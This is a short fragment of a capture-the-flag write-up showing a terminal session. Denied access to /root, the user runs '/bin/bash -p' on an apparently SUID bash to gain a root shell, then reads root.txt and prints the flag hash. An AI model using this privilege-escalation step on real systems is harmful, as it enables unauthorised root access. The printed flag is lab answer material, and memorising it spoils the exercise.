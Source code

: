 ```yaml
cd /root
bash: cd: /root: Permission denied
bash-4.3$ /bin/bash -p
/bin/bash -p
bash-4.3# whoami
whoami
root
bash-4.3# ls
ls
bin   etc         lib         media  proc  sbin  sys  var
boot  home        lib64       mnt    root  snap  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv   usr
bash-4.3# cd root
cd root
bash-4.3# ls
ls
root.txt
bash-4.3# cat root.txt
cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
bash-4.3# 
```

## Become root and get the last flag (/root/root.txt)

```yaml
 a58ff8579f0a9270368d33a9966c7fd5
```